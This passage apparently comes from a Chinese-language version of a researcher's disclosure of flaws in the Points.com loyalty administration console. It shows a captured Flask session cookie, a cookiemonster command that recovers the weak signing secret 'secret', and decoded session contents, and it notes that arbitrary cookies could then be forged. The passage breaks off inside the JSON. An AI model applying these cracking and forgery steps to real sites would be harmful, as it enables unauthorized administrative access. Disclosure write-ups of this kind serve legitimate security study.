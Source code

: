 

**由於我們無法確認這一點，所以繼續尋找更關鍵的東西:**
對我們來說，最重要的是能夠產生無限里程
- 我們永遠無法真正利用它(從道德角度)，但只要找到一種方法，讓我們免費乘坐頭等艙航班、入住五星級酒店、乘坐遊輪和享用美食，我們就會堅持


**轉回 `Points.com` Global Administration Console 進行測試:**  
在意識到我們無法在航空公司網站上進行更深入的探索後，我們將重點轉回到我們發現的原始網站上
- 該網站供 `points.com` 員工和獎勵計劃所有者用於管理客戶和獎勵計劃
- 我們在 `console.points.com` 網站的 JavaScript 中看到，有大量 endpoint 只有 `points.com` 員工才能存取
- 我們又對這些 endpoint 進行了幾個小時的測試，試圖找到任何 authorization bypass 的方法，但都以失敗告終
- 在我們沮喪地嘗試升級權限又過了一段時間後，我們放大了視野，發現了一些我們一直忽略的明顯問題


----------------



## 5. 透過脆弱的 Flask Session Secret 完全存取核心 `Points.com` Administration Console 和 Loyalty Admin 網站
在我們最終停止測試 API 和查找權限漏洞後，我們發現我們完全忘記了查看 sesseion cookie !!



根據 cookie 的格式
- 我們可以看出它是一個奇怪的加密 blob，因為它的格式看起來像 JWT
- 我們又花了一些時間，最後發現核心 application 的 session token 是個已簽署的 Flask session cookie
  - (Python Flask)

```
session=.eJwNyTEOgzAMBdC7eO6QGNskXCZKrG8hgVqJdEPcvX3ru6n5vKJ9PwfetFHCiCqwtYopo4NLiPOo4jYMuhizpJLV8oicilQF_qOeF_a104taXJg7bdHPiecHfX8ccg.ZFCriA.99lOhq3pO8yBWM7XjBshaKjqPKU
```



我們用 ["cookiemonster"](https://github.com/iangcarroll/cookiemonster) 測試看看 cookie
- 這個工具會自動猜測用於簽署 cookie 的秘密，並嘗試用已知秘密的單字表取消簽署
- 幾秒鐘後，我們得到了回應！


```shell
zlz@htp ~> cookiemonster -cookie ".eJwNyTEOgzAMBdC7eO6QGNskXCZKrG8hgVqJdEPcvX3ru6n5vKJ9PwfetFHCiCqwtYopo4NLiPOo4jYMuhizpJLV8oicilQF_qOeF_a104taXJg7bdHPiecHfX8ccg.ZFCriA.99lOhq3pO8yBWM7XjBshaKjqPKU"
🍪 CookieMonster 1.4.0
ℹ️ CookieMonster loaded the default wordlist; it has 38919 entries.
✅ Success! I discovered the key for this cookie with the flask decoder; it is "secret".
```


`points.com` 員工用來管理所有獎勵檔案、忠誠度計畫和顧客訂單的網站的 Flask session secret 是 `"secret"` 這個字
- 理論上，只要伺服器不在 cookie 中包含一些不可預測或已簽署的資料，我們就可以用我們想要的任何資料來簽署我們自己的 cookie
- 我們驗證了網站，並將 session cookie 複製到 flask-unsign，以調查 cookie 的內容:
  - (https://github.com/Paradoxis/Flask-Unsign)

```json
{
   "_csrf_token":"redacted",
   "_fresh":true,
   "_id":"redacted",
   "_user_id":"redacted",
   "sid":"redacted",
   "user":{
      "authenticationType":"account",
      "email":"samwcurry@gmail.com",
      "feature_flags":["temp_resending_emails"],
      "groups":[],
      "id":"redacted",
      "mac_key":"redacted",
      "mac_key_identifier":"redacted",
      "roles":[]
   }
```